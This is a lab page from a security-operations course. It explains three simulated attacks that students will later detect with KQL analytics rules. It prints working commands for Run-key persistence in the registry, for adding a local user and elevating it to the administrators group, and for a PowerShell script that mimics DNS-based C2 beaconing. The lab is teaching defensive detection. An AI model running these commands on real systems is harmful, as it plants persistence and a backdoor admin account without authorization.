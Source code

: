 # Lab 06 - Understand Detection Modeling

### Lab Scenario

In this lab, you will understand the attacks and about Detection Modeling

## Lab objectives
 In this lab, you will understand the following:
- Task 1: Understand the Attacks
- Attack 1 - Persistence with Registry Key Add.
- Attack 2 - User Add and Elevate Privilege
- Attack 3 - DNS / C2 
- Task 2: Understand Detection Modeling.

## Estimated timing: 10 minutes

## Architecture Diagram

  ![Lab overview.](./media/sc-200ex5.png)

### Task 1: Understand the Attacks

**IMPORTANT: You will perform no actions in this exercise.**  These instructions are only an explanation of the attacks you will perform in the next exercise. Please carefully read this page.

The attack patterns are based on an open-source project: https://github.com/redcanaryco/atomic-red-team

   **Note:** Some settings are triggered in a smaller time frame just for our lab purpose.

#### Attack 1 - Persistence with Registry Key Add.

This attack is run from a command prompt:

```Command
REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "SOC Test" /t REG_SZ /F /D "C:\temp\startup.bat"
```

#### Attack 2 - User Add and Elevate Privilege

Attackers will add new users and elevate the new user to the Administrators group.  This enables the attacker to logon with a different account that is privileged.

```Command
net user theusernametoadd /add
net user theusernametoadd ThePassword1!
net localgroup administrators theusernametoadd /add
```

#### Attack 3 - DNS / C2 

This attack will simulate a command and control (C2) communication.

```PowerShell
param(
    [string]$Domain = "microsoft.com",
    [string]$Subdomain = "subdomain",
    [string]$Sub2domain = "sub2domain",
    [string]$Sub3domain = "sub3domain",
    [string]$QueryType = "TXT",
        [int]$C2Interval = 8,
        [int]$C2Jitter = 20,
        [int]$RunTime = 240
)
$RunStart = Get-Date
$RunEnd = $RunStart.addminutes($RunTime)
$x2 = 1
$x3 = 1 
Do {
    $TimeNow = Get-Date
    Resolve-DnsName -type $QueryType $Subdomain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
    if ($x2 -eq 3 )
    {
        Resolve-DnsName -type $QueryType $Sub2domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
        $x2 = 1
    }
    else
    {
        $x2 = $x2 + 1
    }
    if ($x3 -eq 7 )
    {
        Resolve-DnsName -type $QueryType $Sub3domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
        $x3 = 1
    }
    else
    {
        $x3 = $x3 + 1
    }
    $Jitter = ((Get-Random -Minimum -$C2Jitter -Maximum $C2Jitter) / 100 + 1) +$C2Interval
    Start-Sleep -Seconds $Jitter
}
Until ($TimeNow -ge $RunEnd)
```

### Task 2: Understand Detection Modeling.

The attack-detect configuration cycle used in this lab represents all data sources even though you are only focused on two specific data sources.

To build a detection, you first start with building a KQL statement.  Since you will attack a host, you will have representative data to start building the KQL statement.

The following lab runs the same attacks on a Windows host with Defender for Endpoint installed and Windows with Sysmon installed.  As you build the detections, you will see the difference in data normalization for each.

After you have the KQL statement, you create the Analytical Rule.

Once the rule triggers and creates the alerts and incidents, you then investigate to decide if you are providing fields that help Security Operations Analysts in their investigation.

Next, make any other changes to the analytics rule.

## Review
In this lab
- You have understood attacks:
   - Attack 1 - Persistence with Registry Key Add.
   - Attack 2 - User Add and Elevate Privilege
   - Attack 3 - DNS / C2 
- You have understood Detection Modeling. 
